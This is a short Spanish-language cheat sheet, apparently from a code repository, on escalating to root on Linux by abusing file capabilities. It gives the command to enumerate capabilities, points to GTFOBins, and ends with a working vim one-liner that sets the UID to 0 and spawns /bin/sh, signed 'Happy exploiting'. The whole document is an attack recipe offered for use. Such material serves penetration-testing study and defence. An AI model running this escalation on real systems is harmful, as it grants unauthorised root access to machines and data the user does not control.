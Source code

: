 # Capabilities

## Vector de ataque

En esencia el vector de ataque es el siguiente:

1. Listar archivos con capabilities
2. Buscar exploit de binario
3. Explotar vulnerabilidad

## Listar archivos con capabilities
Se obtienen las capabilities de los archivos desde / y con 2> /dev/null se omiten los errores para una salida mas limpia

```
getcap / -r 2> /dev/null
```
Esto arrojará una cantidad X de resultados con sus distintos cap, nos interesa aquellos que tengan CAP_SETUID

## Buscar binarios vulnerables
Se puede ir a gtfobins.github.com para buscar binarios vulnerables

![Alt text](gtfobins.png)

## Explotar vulnerabilidad
Teniendo en cuenta el binario vulnerable, ejecutar el exploit asociado

Ejemplo vim vulnerable

```
./vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

Eso permitirá escalar a root

---
Happy exploiting - Zpx